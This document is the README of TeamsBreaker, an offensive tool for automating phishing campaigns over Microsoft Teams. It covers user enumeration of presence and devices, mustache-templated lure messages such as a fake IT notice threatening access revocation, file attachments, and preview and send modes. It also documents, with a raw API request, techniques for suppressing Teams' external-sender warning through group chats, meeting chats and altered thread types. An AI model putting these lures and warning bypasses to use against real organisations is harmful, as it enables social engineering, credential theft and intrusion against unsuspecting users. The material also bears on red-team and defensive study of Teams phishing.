








# TeamsBreaker

TeamsBreaker is a tool designed for automating the sending of phishing messages to victims. It is heavily based from [TeamsPhisher](https://github.com/Octoberfest7/TeamsPhisher/tree/main) and [TeamsEnum](https://github.com/sse-secure-systems/TeamsEnum). 

Teams by default shows a warning message whenever a message is received from a user of another organization. TeamsBreaker uses different methods for bypassing this limitation, which are explained at the end of this README.

Check [our whitepaper](https://up.nttdata.com/l/970163/2024-01-22/58n5n/970163/1705913860OSud8AHj/Using_Microsoft_Teams_for_Phishing.pdf) for an explanation of the techniques used by this tool :)

# How to use

First clone the repo, then run `make install` to enter a python virtual environment with all the necessary packages.

## Examples

    python3 teams_breaker/teams_breaker.py -u [user]@[email] -p [password] -s [sharepoint_url] --configuration tests/example_conf.yaml --send

# Configuration syntax

In order to streamline the setup of phishing campaigns, TeamsBreaker offers the option to customize its configuration through a YAML file. Below, the format of this file is outlined.

## Keys

- **message** (_Mandatory_): what message to send. This is a mustache template, any value of a user profile description can be used, such as `displayName` or `userPrincipalName`, among others. **Be careful**, if the variable is not found, it will be left empty and no error will be reported. (This is a current limitation of the mustache implementation in python, chevron)
- **chat_title** (_Mandatory_):  what title to use in the room.
- **user_list** (_Mandatory_): where is the file containing the list of users.
- **log** (_Optional_): If present, where to save the logs to. Use `{time}` to name the log file with the current time.
- **attachment** (_Optional_): The location of the file that will be attached to the victim in the chat.
- **method** (_Optional_): The method to be used to bypass the request screen. Currently, it supports `meeting` or `closed_chat`. By default it is `closed_chat`.
    
## Example configuration
    
```yaml
message: |
         Hi {{displayName}},

         Please enter <a href="https://www.google.com" title="click here">here</a> soon, or your access will be revoked.

         Kind regards,
         The real IT Team. (not a 🐟)
chat_title: "Urgent"
method: closed_chat
user_list: /home/kali/projects/me.txt
log: send_{time}.log
```

## Command line arguments

The configuration is not limited solely to the YAML file; some options can only be configured through the command line. The most crucial options that must be specified are as follows:

- `-u,` `--user`: Attacker account username.
- `-p,` `--password`: Password.
- `-s,` `--sharepoint`: SharePoint server name to which files will be uploaded.

One of the following options must be present to select the mode of operation:

- `--enum`: Run TeamsBreaker in user enumeration mode.
- `--send`: Activate sending mode. Sends messages to the victims.
- `--dry-run`: Console preview mode. Does not send any messages.
- `--dry-run-self`: Preview mode that sends messages to the attacker's account.

Optionally, you may also use these:

- `--no-confirm`: Stop asking for confirmation before sending each phishing message to a user.
- `--attachment`: The file to attach to the victim.
- `-c`: The configuration file to be used.

# Modes of operation

Four modes of operation are currently present in the tool. This modes are mutually exclusive, only one can be used at a time.

## Enumeration mode

In enumeration mode, the tool shows a table containing the status of the users found in the user list. This table shows data such as availability (whether the user is Away,Busy,Available, Out of Office...), which device they are logged in Teams currently (Desktop, Mobile, Web...). It also generates a `.csv` file called `user_status.csv`.

No message is sent in enumeration mode to the victims.



## Preview modes

To ensure that the phishing campaign has the right message content and the correct format, the tool offers various message sending preview modes.

### Dry run mode

Firstly, there is a mode called _dry run_, which exclusively collects user data and displays the messages that will be sent to each user on the screen, without actually sending any messages to the victims. This option is activated with `--dry-run.`



### Dry run self mode

Secondly, there is a mode called _dry run self_, which can be activated with the option `--dry-run-self`. This mode also collects user data, but instead of sending messages to the victims, it directs them to the attacker's own account. This allows the attacker to preview from their own Teams account if the format is indeed correct and if the messages are being delivered correctly.




## Send mode

In send mode **messages will be sent to the victims**. The tool shows a warning that must be confirmed preventing operation otherwise.

The `--send` flag must be present to use this mode.




**TeamsBreaker** also supports the option to send a file to the victim. This file can be attached using the `--attachment` option and specifying the file path. Another way is by using the configuration file, which will be explained further below.





# Bypass techniques

The bypass techniques used by **TeamsBreaker** are explained in-depth in a paper which will be published and linked here. Nevertheless, a brief explanation of each mode will also be given.

## Group chat

To prevent the warning of a message from an external organization, a group chat between the sender and victim is created. This is achieved by sending the following request:

``` 
POST /v1/threads

Host: https://amer.ng.msg.teams.microsoft.com
Authentication: skypetoken= [SKYPETOKEN],
User-Agent: [USERAGENT],
Content-Type: "application/json",
Origin: "https://teams.microsoft.com",
Referer: "https://teams.microsoft.com/"

{
  "members": [
    {
      "id": [SENDER_MRI],
      "role": "Admin",
    },
    {
      "id": [TARGET_MRI],
      "role": "Admin",
    },
    {
      "id": [TARGET_MRI],
      "role": "Admin",
    }
  ],
  "properties": {
    "threadType": "chat",
    "chatFilesIndexId": "2",
    "cfet": "true"
  }
}
```

## Meeting chat

Apart from group chats, there are other kind of chats between more than one user, meeting chats. When a user creates an "online" meeting and invites other people into it, a special kind of group chat is created in which users can communicate. This chat is silenced by default, which means that other users will not see a popup notification when they receive a message, but it is counted as an unseen message. Meetings can be arranged between people of different organizations, and currently, they do not warn of messages coming from another organization.

Creating this kind of chat is a little more involved, as we do not want the victim to receive an email with an upcoming meeting, or the meeting to be seen in the victims calendar.

The high level overview of the technique is as follows:

1. Create a meeting chat thread.
2. Create a meeting with just the sender, using the meeting chat thread to "initialize" it.
3. Add victims to chat.
4. Unhide the chat.

## Other chats

By manipulating the `threadType` in the request above it is possible to create another kind of chat room or even directly create meeting chats. These chats do not show a splash screen to the user warning about an external sender.
The available `threadType` values were found here [ardatan/MessagingAPIService.json ](https://gist.github.com/ardatan/a4a619d6d1a4daa3b65287d0298e50e0)

Repository initiated with [fpgmaas/cookiecutter-poetry](https://github.com/fpgmaas/cookiecutter-poetry).
